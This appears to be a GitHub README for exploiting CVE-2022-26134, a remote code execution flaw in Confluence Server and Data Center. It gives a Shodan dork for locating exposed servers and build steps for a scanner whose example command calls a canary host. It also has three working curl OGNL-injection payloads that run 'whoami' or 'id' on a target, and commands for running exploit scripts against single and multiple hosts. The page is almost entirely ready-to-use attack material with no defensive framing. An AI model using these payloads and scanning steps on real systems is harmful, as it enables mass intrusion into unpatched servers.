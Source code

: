 # CVE-2022-26134
Confluence Server and Data Center RCE
- Shodan dork
```
http.favicon.hash:-305179312
```
<!-- Here is an Easter Egg for inquiring minds
shodan-favicon-hashes - https://mega.nz/file/ctdH3LAB#lnE0GUkfCacwA18wR1VQI6TxIJ4OKM_6YKQdpHY4GN0
-->

- Scan hosts for vulnerability
```
git clone https://github.com/redhuntlabs/ConfluentPwn; cd ConfluentPwn
```
```
go build
```
```
./cfscan -h
```
```
Examples:
  ./cfscan 1.2.3.4:80 1.1.1.1:8080
  ./cfscan -file urls.txt
  ./cfscan -cmd 'nslookup xxxxxxxxxxxxxxxxx.canarytokens.com 1.1.1.1:80'
  ./cfscan -cmd 'ps' -regex '^\s*PID\s*TTY\s*TIME\s*CMD' http://1.1.1.1:443
```



- Curl PoC

```
curl -v http://target_IP:port/%24%7BClass.forName%28%22com.opensymphony.webwork.ServletActionContext%22%29.getMethod%28%22getResponse%22%2Cnull%29.invoke%28null%2Cnull%29.setHeader%28%22X-Cmd-Response%22%2CClass.forName%28%22javax.script.ScriptEngineManager%22%29.newInstance%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20d%3D%27%27%3Bvar%20i%20%3D%20java.lang.Runtime.getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%3B%20while%28i.available%28%29%29d%2B%3DString.fromCharCode%28i.read%28%29%29%3Bd%22%29%29%7D/
```
or
```
curl -v http://target_IP:port/${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Cmd-Response",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("var d='';var i = java.lang.Runtime.getRuntime().exec('whoami').getInputStream(); while(i.available())d+=String.fromCharCode(i.read());d"))}/
```
or
```
curl -v http://target_IP:port/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
``` 
- Usage

Exploit single target
```
python3 exploit.py https://target.com CMD
```
```
python3 exploit2.py -u http://xxxxx.com -c id
```
Exploit multi-targets
```
python3 exploit2.py -f urls.txt -c id
```

